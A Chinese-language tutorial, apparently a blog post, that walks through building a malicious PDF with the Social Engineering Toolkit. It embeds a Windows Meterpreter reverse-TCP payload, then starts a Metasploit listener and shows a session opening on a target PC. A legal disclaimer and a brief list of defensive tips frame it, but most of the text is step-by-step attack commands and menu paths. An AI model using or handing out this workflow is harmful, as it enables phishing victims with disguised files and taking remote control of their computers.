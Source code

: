 ```
本文内容及所涉及的技术，仅限用于合法授权下的安全研究、教学演示、
以及漏洞复现。严禁将本文技术用于未授权的渗透、监听、植入、操控行为。

本文内容仅限安全研究、漏洞复现与教学演示使用！

使用者必须在完全理解并接受本声明的前提下继续阅读与操作。
凡将本文所述方法用于非法用途者，一切法律后果由使用者本人承担。

请严格遵守所在地的法律法规，特别是以下中国法律条款：

📜 《中华人民共和国网络安全法》 第十二条：
禁止任何组织或个人利用网络危害国家安全、煽动颠覆政权等活动。

📜 《中华人民共和国刑法》 第二百八十五条至二百八十七条：
非法入侵计算机系统、篡改或破坏数据将追究刑责。

📜 《中华人民共和国数据安全法》 第三条、第十七条：
数据处理活动必须合法合规，严禁非法获取、传输或泄露数据。

🚫 强烈禁止以下行为：

- 向他人 APK 植入恶意代码并传播
- 上传恶意程序至应用市场
- 在未授权设备或网络环境中运行本篇提及的技术

⚖️ 非法使用将触犯法律，作者不承担由此引发的任何后果。

🧪 本文操作均在本地沙箱环境下进行，示例所用 APK 为自定义构建 demo，用于演示完整技术链路，非实际恶意软件。

💡 特别提醒：
本文所涉及操作可能包含网络通信、远程访问、敏感权限调用等，
必须在受控环境下、获得明确授权后进行。
未经许可的任何行为都将被视为违法攻击。

📛 作者立场中立，仅为安全教育目的演示，不对滥用技术行为负责。
```

---

### PDF 也能是武器

当我们说到「本地涉入」、「文件根级」时，很多人第一反应是 `.apk`、`.exe`、`.sh`这种打开后明显有危险的文件。

但是你有没有想过：一份看上去正常的 PDF ，在软件程序已经被别有用心的情况下也可以是一份致命的 payload？

这篇文章我会手把手教你：

- 黑客如何使用 SET (社工攻击框架) 来生成恶意 PDF
- 如何启动监听器等待目标上钩
- 我们为什么需要增强文件安全意识

---

### 工具简介：Social Engineering Toolkit

我们使用 Kali Linux 自带的 SET (Social Engineering Toolkit) 工具，它能快速构建带有反弹木马的恶意 PDF。

安装命令（如未安装）：

```bash
git clone https://github.com/trustedsec/social-engineer-toolkit.git
cd social-engineer-toolkit
pip3 install -r requirements.txt
sudo python3 setup.py install
```

Social Engineering Toolkit (社工攻击框架，简称 SET) 是 Kali Linux 中一个完全为社工攻击而生的工具包。

只需要执行：

```bash
sudo setoolkit
```

菜单选择：

```bash
Social-Engineering Attacks > Spear-Phishing Attack Vectors > Create a FileFormat Payload > Adobe PDF Embedded EXE Social Engineering > Rename > Windows Meterpreter Reverse TCP > {IP_地址} > {端口} >  2 > {名称.pdf}
```

接下来，设置参数：

- Payload 类型：选择 windows/meterpreter/reverse_tcp
- LHOST（本地 IP）：如 192.168.56.1 或 VPN IP（建议用 ip a 查看 tun0）
- LPORT（监听端口）：常用 4444
- 生成文件名：如 evil.pdf

输出路径：

> 生成的 PDF 通常保存在：`/root/.set/`

PDF 文件位于你的 Kali Linux 目录中（打开 Root Terminal Emulator）：

然后执行以下命令：

```bash
cd /root/.set
mv {PDF文件名} /home/{你的用户名}/Desktop
# 我的例子是/home/linger/Desktop，可以用pwd命令确认路径
# mv evil.pdf /home/linger/Desktop/
```

---

### 启动监听器等待目标上钩

```bash
sudo msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.56.1 			# 您的IP地址
set LPORT 4444         			# 端口
run
```

一旦目标打开 PDF，反向连接建立，Shell 即到你手上！

```bash
[*] Meterpreter session 1 opened
meterpreter > sysinfo
Computer        : TARGET-PC
OS              : Windows 10 Pro x64
```

你现在已经拥有对方机器的远程控制权限。

---

### 如何防范这种攻击？

你应该牢记：
⚠️ 永远不要轻信来源不明的 PDF
⚠️ 使用沙箱（如 Windows Sandbox）或虚拟机打开文件
⚠️ 禁用 PDF 阅读器中的自动脚本执行
⚠️ 安装 IDS/IPS，检测异常出网行为
⚠️ 每个终端部署 EDR（如 CrowdStrike、SentinelOne）

---

恶意 PDF 攻击不是新鲜事，但它依然是黑产日常武器库中的常规选手。

写这篇文章的目的，不是教你当黑客或搞破坏，而是告诉你：

🔐 如果你连他们是怎么攻击的都不知道，你要怎么防？
提升意识，是网络安全的第一步!
